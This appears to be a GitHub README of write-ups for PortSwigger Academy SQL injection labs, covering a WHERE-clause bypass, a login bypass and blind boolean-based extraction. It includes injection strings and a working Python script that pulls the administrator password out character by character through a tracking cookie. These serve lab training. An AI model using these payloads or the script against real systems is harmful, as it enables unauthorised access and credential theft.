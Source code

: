 SQL injection

What is SQL injection (SQLi)?

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack.
![Define picture](pictures/image.png)

<h1>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data </h1>
1. Open burpsuite and click on the proxy

![Alt text](pictures/1.png) 
2. Open the Lab link 

```https://0a0200da04c7bbdc811ddef7007b0093.web-security-academy.net/```
3. Open the link,make sure the intercept is on and click on the gift section.

![Alt text](pictures/2.png)

4. Take the intercept and sent it to the repeater
![Alt text](pictures/3.png)

5. Edit the `GET /filter?category=Gifts'-- HTTP/1.1`
![Alt text](pictures/4.png)
Hence solved


<h1>Lab: SQL injection vulnerability allowing login bypass</h1>

1. You have to open the my account in lab
![Alt text](image.png)
2. Intercept is on and add some values on the username and password.
![Alt text](image-1.png)
3. you will get a response with username=aa and password= 
4. edit the link as username=administrator'--
5. Send it to the repeater and click on the `send`
6. Solved
![Alt text](pictures/5.png)


<h1>Lab: Blind SQL injection with conditional responses </h1>

![Alt text](image-2.png)
 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. 

I tried to solve it using this
```
    1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is TrackingId=xyz.

    2. Modify the TrackingId cookie, changing it to:
    TrackingId=xyz' AND '1'='1

    3.Verify that the "Welcome back" message appears in the response.

    4. Now change it to:
    TrackingId=xyz' AND '1'='2

    5.Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

    6. Now change it to:
    TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

    7.Verify that the condition is true, confirming that there is a table called users.

    8.Now change it to:
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a

    9.Verify that the condition is true, confirming that there is a user called administrator.

    10. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

    11. This condition should be true, confirming that the password is greater than 1 character in length.

    12. Send a series of follow-up values to test different password lengths. Send:
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a

    13. Then send:
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a

    14. And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.
    After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

    15. In the Positions tab of Burp Intruder, change the value of the cookie to:
    TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

    16. This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

    17. Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
    TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
    To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under Payload settings add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
    To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Settings tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".
    Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
    Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.

    18. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
    TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
    Launch the modified attack, review the results, and note the character at the second offset.
    Continue this process testing offset 3, 4, and so on, until you have the whole password.
    In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.
```
I need pro so i don't have it and it tried to solve using python.
Use the below code as python and you will get a code 
```import requests

url = 'https://0adf001803c50cd581735d8c00120089.web-security-academy.net/'
tracing_id = "cZ5jv8f1zsBvJZfG"

def find_length():
    length = 1
    while True:
        cookie = {
            "TrackingId": tracing_id + "' and (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>" + str(length) + ")='administrator'-- -"
        }
        res = requests.get(url=url, cookies=cookie)
        if "Welcome back!" not in res.text:
            break
        length += 1
        print(f"Length: {length}")
    return length

def find_password(length):
    chars = "abcdefghijklmnopqrstuvwxyz1234567890"
    password = ""
    for i in range(1, length+1):
        found = False
        print(f"For {i}th place:")
        for c in chars:
            print(f"Checking: {c}")
            cookie = {
                "TrackingId": tracing_id + "' and (SELECT SUBSTRING(password, " + str(i) + ", 1) FROM users WHERE username='administrator')='" + c + "'-- -"
            }
            res = requests.get(url=url, cookies=cookie)
            if "Welcome back!" in res.text:
                found = True
                password += c
                print(f"Match found: {c}")
                print(f"Current Extracted: {password}")
                break
        if not found:
            print(f"No match found for {i}th place.")
    return password

length = find_length()
print(f"Password Length: {length}")
password = find_password(length)
print(f"Password: {password}")
```
![Alt text](Screenshot_2023-07-15_13_33_21.png)

Copy the code and use username=administator
Hence solved!

![Alt text](image-3.png)